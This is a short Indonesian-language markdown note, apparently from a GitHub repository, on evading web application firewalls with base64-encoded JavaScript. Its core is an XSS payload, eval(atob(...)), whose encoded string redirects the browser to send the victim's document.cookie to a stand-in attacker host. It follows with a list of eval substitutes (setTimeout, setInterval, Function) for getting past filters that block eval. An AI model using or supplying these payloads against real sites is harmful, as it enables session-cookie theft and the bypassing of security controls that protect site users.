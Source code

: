 # Base64 Encode Evasion
biasanya digunakan untuk menghindari block dari waf terhadapat payload javascript seperti eval, alert, prompt, document.cookie dan lainnya.

## XSS
<img width="500" alt="image" src="https://user-images.githubusercontent.com/52058660/161191171-59b6d3df-a4a2-496c-b61b-c64cc44aec56.png"><br>
sehingga<br>
`eval(atob(bG9jYXRpb24uaHJlZiA9ICdodHRw0i8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=))`<br>
dapat dilihat bahwa eval akan diblock oleh WAF sehingga mencari alternativenya menggunak payload berikut<br>
<img width="500" src="https://user-images.githubusercontent.com/52058660/161191520-a3c5e394-b576-408e-89d4-a55a57cd95c2.png"><br>
```
setTimeout("code") #allbrowser
setInterval("code") #allbrowser
setImmediate("code") #IE10
Function("code")() #allbrowser
```

